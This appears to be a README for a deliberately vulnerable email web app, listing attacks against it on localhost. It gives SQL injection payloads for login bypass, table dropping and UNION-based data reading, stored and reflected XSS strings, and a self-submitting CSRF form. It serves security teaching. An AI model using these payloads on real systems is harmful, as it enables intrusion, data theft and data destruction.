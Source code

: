 # List of possible attacks

## SQL Injection

Unlocks: Get access without password.

On login, enter `<USERNAME>' --` as email, where `<USERNAME>` is the target username.
Enter as password any value.

Works, because the password is checked after the email and the input is not sanitized.

## SQL Injection

Unlocks: Run any SQL statement.

On login, enter `'; <SQL_STATEMENT> --` as email, where `<SQL_STATEMENT>` is any SQL statement, like `'; drop table email; --` for 
example.

## Stored XSS

Unlocks: Run any JavaScript code on sender and receiver of email.

Once logged in, email an existing user with `<script>console.log("pwned");</script>` as the subject or the body of the email.

## Reflected XSS

On registration, pass `<script>console.log("pwned");</script>` as the email to run the script on the victim's browser.

This is equivalent to making a POST request to the following URL:
```
http://localhost:8080/register?name=Name1&surname=Surname1&email=%3Cscript%3Econsole.log%28%22pwned%22%29%3B%3C%2Fscript%3E&password=123
```
This URL can be used for a XSRF attack, like shown below.

## Reflected XSS

Feature: Run any JavaScript code.

On registration, enter a valid email and `"><script>console.log("pwned");</script>` as password to run the script on the victim's browser.

This is equivalent to making a POST request to the following URL:
```
http://localhost:8080/register?name=Name3&surname=Surname3&email=user3%40gmail.com&password=%22%3E%3Cscript%3Econsole.log%28%22pwned%22%29%3B%3C%2Fscript%3E
```
This URL can be used for a XSRF attack, like shown below.

_Note: The password can be at most 50 characters long due the limit imposed by the database.
Using a longer string throws an exception on the server and does not return the script in the response._

## XSRF

The following HTML page can be forged, such that the session cookie of the victim visiting the page is used to authenticate the sending of an arbitrary email.
In this example `user1@gmail.com` is forced to email `user2@gmail.com`.
```html
<form id="submitMail" class="form-resize" action="http://localhost:8080/email-send"
      method="post">
    <input type="hidden" name="email" value="user1@gmail.com">
    <input class="hidden" name="receiver" placeholder="Receiver" required="" value="user2@gmail.com">
    <input class="hidden" name="subject" placeholder="Subject" required="" value="PWNED">
    <input class="hidden" name="body" placeholder="Body" required="" value="Forced message">
</form>
<script>document.forms.submitMail.submit();</script>
```

_Note: The sender does not have to be the owner of the cookie used to authenticate the request._

## In-band SQL Injection

On login, pass `user1@gmail.com' UNION SELECT @@VERSION, CURRENT_USER, @@VERSION, CURRENT_USER, @@VERSION --` as email to receive a verbose description of the database version and the name of the current database user.

_Note: 5 expressions are used in the select statement, because the user table has 5 columns too._

## In-band SQL Injection

Assume that we know the structure of the database tables.

On login, pass `' UNION SELECT subject, subject, subject, receiver FROM email --` as email to receive 
the subject and the receiver of the first email returned by the database.

_Note: 4 expressions are used in the select statement, because the user table has 4 columns too. 
Only the 3rd and the 4th expression are then extracted and returned by the web server._